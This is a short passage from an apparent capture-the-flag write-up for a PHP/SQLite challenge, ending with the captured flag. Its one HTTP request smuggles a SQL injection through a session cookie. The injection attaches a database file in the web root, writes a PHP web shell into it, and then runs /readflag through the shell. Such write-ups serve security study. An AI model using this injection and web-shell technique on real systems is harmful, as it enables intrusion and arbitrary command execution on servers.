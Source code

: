 Next, we simply have to visit our webshell to get the flag.

```http
GET /data/nice.php?cmd=/readflag HTTP/1.1
Host: 65.108.176.96:8888
Cookie: session=20 or 1%3D1%3B ATTACH DATABASE %27%2Fvar%2Fwww%2Fhtml%2Fdata%2Fnice.php%27 AS lol%3B CREATE TABLE lol.pwn %28dataz text%29%3B INSERT INTO lol.pwn %28dataz%29 VALUES %28%27%3C%3Fphp system%28%24_GET%5B%22cmd%22%5D%29%3B %3F%3E%27%29%3B%23598|dW8W.oyZd9VSfcnVaiWE2c8pYNHaOyXhBIzpXc2TTCPlPzvRdcHvMA8..6O2AftmrQYa287BZgFsLd9/Ki0ik/
Connection: close
```

`hxp{dynamically_typed_statically_typed_php_c_I_hate_you_all_equally__at_least_its_not_node_lol_:(}`
